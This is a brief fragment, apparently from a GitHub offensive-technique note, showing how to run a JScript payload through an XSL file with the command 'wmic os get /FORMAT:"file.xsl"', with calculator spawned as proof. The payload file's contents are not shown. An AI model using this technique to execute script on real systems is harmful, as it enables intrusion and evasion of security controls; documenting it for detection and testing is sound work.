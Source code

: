 Define the XSL file containing the jscript payload:
```
file.xsl
```
Invoke any wmic command now and specify /format pointing to the file.xsl:
```
wmic os get /FORMAT:"file.xsl"
```
Calculator is spawned by svchost.exe:

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)
